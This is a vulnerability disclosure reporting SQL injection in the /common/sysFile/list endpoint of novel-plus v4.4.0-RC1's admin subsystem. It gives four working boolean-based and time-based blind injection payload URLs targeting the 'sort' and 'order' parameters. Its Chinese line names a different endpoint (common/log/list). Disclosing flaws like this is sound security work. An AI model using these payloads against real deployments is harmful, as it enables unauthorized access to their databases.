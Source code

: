 SQL injection vulnerability exists in novel-plus v4.4.0-RC1

novel-plus系统novel-admin子系统common/log/list接口存在SQL注入
The /common/sysFile/list interface of the novel-admin subsystem in the novel-plus system has SQL injection vulnerability.

official website: https://novel.xxyopen.com/index.htm
github: https://github.com/201206030/novel-plus
Affected version: v4.4.0-RC1
releases：https://github.com/201206030/novel-plus/releases/tag/v4.4.0-RC1


Payload:
```
--sort--
http://127.0.0.1:8088/common/sysFile/list?limit=10&offset=0&sort=1 AND 7858=(SELECT (CASE WHEN (7858=7858) THEN 7858 ELSE (SELECT 8757 UNION SELECT 2737) END))-- -&order=asc
http://127.0.0.1:8088/common/sysFile/list?limit=10&offset=0&sort=1 AND (SELECT 8148 FROM (SELECT(SLEEP(5)))yohp)&order=asc
--order--
http://127.0.0.1:8088/common/sysFile/list?limit=10&offset=0&sort=1&order=,1 AND 4354=(SELECT (CASE WHEN (4354=4354) THEN 4354 ELSE (SELECT 8745 UNION SELECT 7606) END))-- - asc
http://127.0.0.1:8088/common/sysFile/list?limit=10&offset=0&sort=1&order=,1 AND (SELECT 2800 FROM (SELECT(SLEEP(5)))qQhq) asc
```


